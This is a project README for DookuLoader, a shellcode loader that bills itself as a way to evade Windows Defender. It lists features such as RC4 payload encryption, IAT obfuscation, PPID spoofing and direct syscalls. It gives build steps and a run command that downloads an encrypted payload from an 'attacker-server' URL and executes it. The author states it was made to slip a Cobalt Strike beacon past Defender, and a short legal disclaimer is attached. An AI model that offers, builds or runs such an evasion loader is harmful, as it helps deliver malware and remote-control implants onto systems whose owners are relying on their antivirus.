

# DookuLoader
<div align="center">
  
   <p><i>DookuLoader is a low level shellcode loader to bypass Windows Defender, created by <a href="https://github.com/rottaj">@rottaj>.</i></p>
   <br/>
</div>
<h3>Features</h3>
<ul>
<li><b>RC4 Encryption:</b> Employs the RC4 decryption algorithm to encrypted payloads, making them harder to detect in memory.</li>

<li><b>Custom WinAPI Functions:</b> Custom implementations of GetProcAddress and GetModuleHandle functions, with string stacks.</li>

<li><b>IAT Obfuscation:</b> Employs Import Address Table (IAT) obfuscation techniques to evade detection.</li>

<li><b>PPID Spoofing:</b> Hides execution trace by spoofing the Parent Process ID (PPID) of the injected process.</li>

<li><b>Direct Syscalls:</b> Leverages direct syscalls to bypass WinAPI hooks and interact with the Windows kernel directly.</li>
</ul>

<h3>Installation</h3>

```bash 
git clone https://github.com/rottaj/DookuLoader.git
cd DookuLoader
make;
```

<h3>Run Payload</h3>

```bash
.\dooku.exe -url "http://attacker-server/rc4-encrypted-payload.bin" 
```

<h3> Encrypt Payload </h3>

```bash
.\dooku.exe -encrypt "raw-payload.bin" 
```
<h3>Contributing</h3>
I am not a 1337 C programmer by any means. This is something I hacked together to get a Cobalt Strike beacon past Windows Defender. If you see anything gross or want to improve this tool, create a pull request or message me at jack@rotta.rocks.

<h3>License</h3>
This project is licensed under the MIT License - see the LICENSE file for details.

<h3>Disclaimer</h3>
Use this software responsibly and only in environments where you have legal permission.<br>
The author of this tool is not responsible for any misuse or damages caused.

<br><br>



<br><br>


<b>Note:</b> The use of this tool for malicious purposes is illegal and unethical. Always ensure that you have explicit permission to use this tool in any environment.